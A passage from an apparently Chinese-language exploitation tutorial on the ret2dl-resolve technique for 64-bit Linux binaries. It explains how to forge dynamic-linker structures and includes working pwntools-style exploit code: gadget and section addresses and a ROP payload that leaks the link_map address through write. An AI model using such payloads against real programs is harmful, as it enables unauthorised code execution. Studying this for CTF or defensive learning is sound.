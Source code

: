 ![](https://bbs.pediy.com/upload/attach/202108/904686_NV7H7HHCWFBAT9U.jpg)

![](https://bbs.pediy.com/upload/attach/202108/904686_GXV4RS7BCEM2PK8.jpg)

(2) 寻址方式发生变化，不再是直接寻址，而是通过一个数组寻址，并且如果索引过大，会造成数组越界，程序崩溃。这里就需要设置 link_map 里的某些参数，置为 0，才能跳过其中的判断语句，使得伪造的 r_info 能够起作用，所以这里还需要先泄露 link_map 的地址：(或者直接伪造 link_map)

▲ GOT+4(即 GOT[1]) 为动态库映射信息数据结构 link_map 地址；GOT+8(即 GOT[2]) 为动态链接器符号解析函数的地址_dl_runtime_resolve。

(3) 同时由于通过数组索引，所以需要进行 0x18 的对齐，确保通过索引 n*0x18 到的地址是我们伪造的结构体。

2. 思考 exp 编写：

(1) 各种前置地址：

```
vulfun_addr = 0x4005e6
write_got = 0x600A58
read_got = 0x600A60
plt0_addr = 0x4004a0
link_map_got = 0x600A48
#GOT[1]的地址
leave_ret = 0x400618
pop_rdi_ret = 0x4006b3
pop_rbp_ret = 0x400550
 
new_stack_addr = 0x600d88 
#程序运行起来才会有，bss与got表相邻，_dl_fixup中会降低栈后传参，设置离bss首地址远一点防止参数写入非法地址出错
 
relplt_addr = 0x400420 
#.rel.plt的首地址，通过计算首地址和新栈上我们伪造的结构体Elf64_Rela偏移构造reloc_arg
 
dynsym_addr = 0x400280
#.dynsym的首地址，通过计算首地址和新栈上我们伪造的Elf64_Sym结构体偏移构造Elf64_Rela.r_info
 
dynstr_addr = 0x400340
#.dynstr的首地址，通过计算首地址和新栈上我们伪造的函数名字符串system偏移构造Elf64_Sym.st_name

```

(2) 泄露 link_map 的地址:

```
#注释头
 
universal_gadget1 = 0x4006aa 
#pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; retn
universal_gadget2 = 0x400690 
#mov rdx, r13; mov rsi, r14; mov edi, r15d; call qword ptr [r12+rbx*8]
 
#使用万能gadgets调用write泄露link_map地址
payload = ""
payload += 'A'*136 #padding
payload += p64(universal_gadget1) 
payload += p64(0x0)
payload += p64(0x1) #rbp，随便设置
payload += p64(write_got)
payload += p64(0x8)
payload += p64(link_map_got)
payload += p64(0x1)
payload += p64(universal_gadget2)
payload += 'A'*0x38 #栈修正
payload += p64(vulfun_addr) #返回到vulnerable_function处
 
io.send(payload)
io.recvuntil("Input:\n")
link_map_addr = u64(io.recv(8))
```